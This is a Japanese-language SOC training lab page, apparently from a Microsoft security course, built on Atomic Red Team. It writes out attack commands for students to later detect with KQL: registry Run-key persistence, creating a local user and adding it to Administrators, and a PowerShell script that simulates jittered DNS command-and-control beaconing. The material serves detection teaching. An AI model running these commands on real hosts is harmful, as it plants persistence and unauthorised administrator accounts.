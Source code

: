 ﻿# モジュール 7 - ラボ 1 - 演習 4 - 検出モデリングを理解する

### タスク 1: 攻撃を理解する

この演習では、アクションを実行しません。  この演習では、実行する攻撃について説明します。

攻撃パターンはオープンソースプロジェクトに基づいています： https://github.com/redcanaryco/atomic-red-team

**注** 一部の設定は、ラボの目的のためだけに、より短い時間枠でトリガーされます。

#### 攻撃 1 - レジストリキーの追加による永続性。

この攻撃は、コマンドプロンプトから実行されます。

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。  これにより、攻撃者は特権のある別のアカウントでログオンできます。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻撃 3 - ドメインネームサービス / コマンド＆コントロール 

この攻撃は、コマンド＆コントロール （C2） 通信をシミュレートします。

```PowerShell


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### タスク 2: 検出モデリングを理解します。

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。  ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。

次のラボでは、Defender for Endpoint がインストールされている Windows ホストと Sysmon がインストールされている Windows で同じ攻撃を実行します。  検出を構築すると、それぞれのデータ正規化の違いがわかります。

KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティオペレーションアナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

# 演習 5 に進みます。
